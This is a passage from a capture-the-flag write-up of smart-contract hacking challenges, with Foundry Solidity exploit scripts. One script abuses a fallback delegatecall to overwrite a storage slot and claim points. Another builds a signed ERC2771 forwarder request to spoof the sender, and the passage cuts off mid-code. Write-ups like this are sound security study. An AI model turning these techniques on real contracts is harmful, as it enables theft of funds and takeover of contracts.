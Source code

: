             (bool success, bytes memory data) = address(chall).call(abi.encodePacked(uint256(uint160(player))));
            console.log("success", success);
    
            ChallengeEasy4(payable(chall))._0x57c1669d();
    
            vm.stopBroadcast();
        }
    }
    ```
    
- writeup
    
    https://bytegraph.xyz/bytecode/99a1c71abec5535cab31f24ea01db84c/graph
    the `slot 1` address has code that sets the `slot 2` to calldata, so using fallback to delecatecall `slot 1` address, set `slot 2` to my address and call  `_0x57c1669d` to claim the points
    

## MIGHTY’s IDENTITY CRISIS

[challenge link](https://github.com/cantinasec/vienna_hackathon_2025/tree/main/MIGHTY'S_IDENTITY_CRISIS\)
---

Transaction hash:  0x15229302aaf7f9f7d1f4473342985ca951829fbcbd56f7129fd2c86c2af78bec

- exploit code

    ```solidity
    import "@openzeppelin/contracts/metatx/ERC2771Forwarder.sol";
    import "@openzeppelin/contracts/utils/cryptography/MessageHashUtils.sol";
    
    contract Easy1Script is Script {
    
        function run() public {
            vm.startBroadcast();
            address player = vm.envAddress("PLAYER");
            uint256 priv = vm.envUint("PLAYER_PRIV_KEY");
    
            address chall = 0x1237B533A88612E27aE447f7D84aa7Eb6722e39D;
            ERC2771Forwarder forwarder = ERC2771Forwarder(0x141Fb23a7087ebb9858FEDC320DE5371C7e84cA2);
    
            ERC2771Forwarder.ForwardRequestData memory req = ERC2771Forwarder.ForwardRequestData(
                player, // from
                address(chall),   // to
                0,  // value
                300000, // gas
                uint48(block.timestamp + 1 minutes),  // deadline
                abi.encodeWithSignature("solve()"),
                new bytes(0) // signature
            );
    
            bytes32 separator = keccak256(
                abi.encode(
                    keccak256(
                        "EIP712Domain(string name,string version,uint256 chainId,address verifyingContract)"
                    ),
                    keccak256(bytes("Forwarder")),
                    keccak256(bytes("1")),
                    146,
                    address(forwarder)
                )
            );
            bytes32 forwarderTypeHash = keccak256(
                "ForwardRequest(address from,address to,uint256 value,uint256 gas,uint256 nonce,uint48 deadline,bytes data)"
            );
            bytes32 digest = MessageHashUtils.toTypedDataHash(
                separator,